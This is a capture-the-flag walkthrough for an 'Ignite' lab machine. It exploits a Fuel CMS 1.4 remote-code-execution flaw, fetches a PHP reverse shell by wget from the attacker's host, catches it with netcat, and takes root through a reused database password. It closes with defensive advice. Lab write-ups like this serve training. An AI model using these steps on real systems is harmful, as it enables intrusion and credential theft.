

# Ignite


## Recon

- **Nmap**

    Starting to find all available port & service with nmap

    ```bash
    Nmap scan report for 10.10.191.118
    Host is up (0.20s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
    | http-robots.txt: 1 disallowed entry 
    |_/fuel/
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Welcome to FUEL CMS
    ```

    Found just two open ports (`http` & `ssh`) . The web service seems using a Fuel CMS, so let's check it out

- **CMS**

    

    When we open the page, it shows a default CMS installation page, from here we know the cms and the version is (`Fuel CMS v1.4`) , let's see if this CMS has a know vulnerability

    

    This CMS have a RCE vulnerability that we can use to execute code in server shell. We can download and use the exploit from [exploit-db](https://www.exploit-db.com/exploits/47138)

## Exploit

- **Getting Reverse Shell**

    After download the [exploit](https://www.exploit-db.com/raw/47138) file, we need to adjust the exploit . Fill the `url` with the machine ip address

    

    This exploit assume us have `python3` installed on our machine, to use the exploit just type

    ```bash
    python3 47138.py
    ```

    I check the exploit to run `uname -a` and we get the linux version of the machine, this indicate the exploit work properly.

    

    Next we try to get reverse shell with php reverse shell file that can be downloaded from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

    Adjust the file change ip with our kali machine ip and the port with the listening port in netcat for later. 

    

    Next upload this reverse php file to machine, for host the directory i use [updog](https://github.com/sc0tfree/updog) 

    

    Then download the reverse php file using `wget`

    ```bash
    wget http://<kali_ip>:<kali_port>/php-reverse-shell.php
    ```

    and check if the download was success

    

    So now we can prepare the netcat to listen on port 4444

    

    Then run the php file on the target machine

    

    

    Next we must upgrade our reverse shell from raw netcat to bash shell so the shell is more interactive using `Python` 

    

- **User Flag**

    After gaining reverse shell to the machine, next we searh for the user flag, usually in the CTF game, `user-flag.txt` is located on `/home/username/` 

    

    Tha's the user flag, next we try to search the root flag

- **Root Flag (Pwned)**

    Before we go deeper to escalate our privilege, we must conduct the basic enum like find our current working directory or try to find interesting file like `backup`, `configuration`, or `database file`. After try to locate and open "interesting files" we find in `/var/www/html/fuel/application/config` directory contain all configuration files for the framework

    

    Try to open the `database.php` file and we found the root account for the database

    

    Lets try to login as root in shell with this password, if the root has the same password, we can login and get the root privilege

    

    The root password account is same with it's database account, so let's we find the root flag, usually in `/root` directory

    

    That's its, we found the root flag and pwning the machine

## Countermeasure

From this game we can learn two things : 

- Update all software or CMS in the web server to the newest version, or patch it if we know there are known vulnerability in the several version.
- Never use the same password for several service account, especially for the root account. Use the different,strong password for all service and for all user
- Encrypt important backup or configuration if we want store it's in our web server.
